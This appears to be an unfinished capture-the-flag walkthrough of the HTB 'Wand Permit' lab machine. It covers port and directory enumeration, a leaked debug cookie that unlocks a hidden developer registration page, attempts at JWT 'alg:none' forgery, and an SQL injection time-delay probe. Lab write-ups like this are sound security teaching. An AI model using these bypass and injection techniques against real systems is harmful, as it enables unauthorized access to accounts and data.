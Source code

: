 # HTB University CTF 2022 - `Fullpwn` - Wand Permit

Start: 2nd December 2022 - 10:41pm

End:

Setup
```console
$ export IP=10.129.255.242
$ mkdir nmap
```
Added `wandpermit.htb` to `/etc/hosts`.

Initial Scan
```
$ nmap -A -T5 $IP -vv -oN nmap/initial

[REDACTED]

$ cat nmap/inital | grep open
80/tcp   open  http       syn-ack Werkzeug/2.2.2 Python/3.8.10
5432/tcp open  postgresql syn-ack PostgreSQL DB 9.6.0 or later
```

Full Port Scan
```
$ sudo nmap -sS -T5 -n -p- $IP -vv -oN nmap/full

[REDACTED]
80/tcp   open  http       syn-ack ttl 62
5432/tcp open  postgresql syn-ack ttl 62
```
No additional **TCP** ports open.

Visiting at the web server resulted in a login page.

Scanning for directories with `dirb/common.txt`:
```console
$ gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt -t 20 -o gobuster/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.255.242
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/02 09:53:43 Starting gobuster in directory enumeration mode
===============================================================
/app                  (Status: 302) [Size: 197] [--> login]
/forgotpassword       (Status: 200) [Size: 1245]
/login                (Status: 200) [Size: 1445]
/logout               (Status: 302) [Size: 197] [--> login]
/meetings             (Status: 302) [Size: 197] [--> login]
/robots.txt           (Status: 200) [Size: 46]
/search               (Status: 302) [Size: 197] [--> login]
Progress: 4392 / 4615 (95.17%)===============================================================
2022/12/02 09:53:52 Finished
===============================================================
```

`/robots.txt` revealed the following information:
```
User-agent: * 
Disallow: /static/CHANGELOG.txt
```

In `/static/CHANGELOG.txt`:
```
Version 2.4.0
-------------------------
- Removed hardcoded secrets on core.js, might need more cleaning on other files

Version 2.3.0
------------------------
- Added manifest plugin to webpack for an upcoming feature

Version 2.2.0
------------------------
- Cleaned up unused files

Version 2.1.0
------------------------
- Temporarily disabled registrations to normal users due to issues again

Version 2.0.0
------------------------
- Added special feature that allows only developers to access certain features

Version 1.3.0
------------------------
- Added webpack for static file bundling

Version 1.2.0
------------------------
- Added base45 encoding support for the new Wizard ID's

Version 1.1.0
------------------------
- Fixed issues on registration

```

Found a url in `/static/main-bundle.js`:
```
/testing/dev/api/v3/register
```
But upon visiting the link, it says we need to access it as developer. Then we get redirected back to `/login`.

`CHANGELOG.txt` mentioned about `manifest`, I googled about `manifest plugins`, and eventually I saw [this thread](https://stackoverflow.com/questions/57661590/purpose-of-webpack-manifest-plugin-in-webpack).

It says:
> WebpackManifestPlugin uses Webpack's manifest data data to emit a JSON file (that you can call manifest.json or whatever you want).

So I gave a shot at `/static/manifest.json`, and this is what I got:
```json
{
  "main.css": "auto/minicssextract.css",
  "main.js": "auto/main-bundle.js",
  "dev.js": "auto/dev-48644bcc829deeffe29e-bundle.js"
}
```

Now I have access to another minified javascript file! As javascript files are served in the `/static` directory, I went to `/static/dev-48644bcc829deeffe29e-bundle.js`. In that file, this variable caught my attention:
```js
const t = ["5306hZYOBb", "46144oFYHui", "2092674nyhxib", "1328703RvoYdl", "1809168oMTOCe", "getTime", "expires=", "9561972IksZju", "x-debug-key-v3", "038663befb1ad868a62035cf5d685adb", "cookie", "2122473ZOLSGJ", "1224815cYPzDr", "toUTCString", "setTime"];
```
It looks like some random value plus a `cookie` to me. My instinct told me that `x-debug-key-v3` and `038663befb1ad868a62035cf5d685adb` is the value of the cookie.

So I try to make a curl request to `/testing/dev/api/v3/register` with the cookie:
```
$ curl http://wandpermit.htb/testing/dev/api/v3/register --cookie "x-debug-key-v3=038663befb1ad868a62035cf5d685adb" 
```

And I can view the page without being redirected! It is a form to register a new user.

For easier access, I added the cookie to my browser using the console:
```console
document.cookie = "x-debug-key-v3=038663befb1ad868a62035cf5d685adb";
```
Then I refresh the page to fill in the form with the following details:
```
Email: ryzh3n@apu.com
Password: test123
First Name: Lai
Last Name: Zhen
Address: apu
City: KL
Date of Birth: 08/28/2000
```

Then I proceed to login with the email and password.

```
email=newadmin@apu.com&password=test123&firstname=Lai&lastname=Zhen&address=apu&city=KL&dob=2000-08-28
```

JWT before verification:
```
eyJlbWFpbCI6InJ5emgzbkBhcHUuY29tIiwiaWQiOjksInN0YWZmIjpmYWxzZSwidmVyaWZpZWQiOmZhbHNlfQ.Y4rT5Q.qEowvC0JO_cA1RjSVdcdlHZL_Js
```

Base64 encoded of `{"typ":"JWT","alg":"none"}`:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0
```

Prepended JWT header: 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJlbWFpbCI6InJ5emgzbkBhcHUuY29tIiwiaWQiOjksInN0YWZmIjpmYWxzZSwidmVyaWZpZWQiOmZhbHNlfQ.Y4rT5Q.qEowvC0JO_cA1RjSVdcdlHZL_Js
```
It logs me out after refreshing the page.

Modified JWT: `"staff":true`
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJlbWFpbCI6InJ5emgzbkBhcHUuY29tIiwiaWQiOjksInN0YWZmIjp0cnVlLCJ2ZXJpZmllZCI6dHJ1ZX0.Y4rNKA.yw1fIu2GoaQCHtIBwxKLioJMCFk
```
Same, no luck.

JWT after verification:
```
eyJlbWFpbCI6InJ5emgzbkBhcHUuY29tIiwiaWQiOjksInN0YWZmIjpmYWxzZSwidmVyaWZpZWQiOnRydWV9.Y4rWHg.Lf_R07r7NCn82Xmcj4G3nZ61MqA
```

Prepended JWT header after verification:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJlbWFpbCI6InJ5emgzbkBhcHUuY29tIiwiaWQiOjksInN0YWZmIjpmYWxzZSwidmVyaWZpZWQiOnRydWV9.Y4rWHg.Lf_R07r7NCn82Xmcj4G3nZ61MqA
```
Still logs me out.

At this point, these are my thoughts:
1. `/meetings`, but it says we need to be staff to view this page. So i think it should be JWT related.
2. SQLinjection, but whenever I inject something like `1;(select 1 from pg_sleep(5))`, or running sqlmap, the web server crashes. It becomes `INTERNAL SERVER ERROR  500` and I have to restart the instance.
3. `/verification`, there'a QR code and it translates to the following string:
```
MPFPEDWE4$96JF6UF4B$DXEDWE41G49$CVKETPEB$DD3DSPC7ECJUDUPC%ZD3Q5R.C4LE1WE..DF$DWE4EF4VKEP$D:KEIE4$F4HEC1WE..DF$DWE4/E4$/EHECIE4QF45VCZKEZQEWE4CF4V9EZEDU1D82B VD.OE9F63Q5OPCRWEWE4GF46$CSUENT93/DTVDHWEO-D3Q5GVCCICWF70A6QF65W55W5+K6Z2
```
  I have no idea what it means. But we are required to upload a photo of `Wizard ID` to verify our account. I uploaded the example photo given and it says im verified, idk how it checks for the photo but the JWT changed abit after verification.

4. In `scheduling a meeting`, I've tried injecting `XSS`, `SSTI` in the `city` parameter, but it is not working.
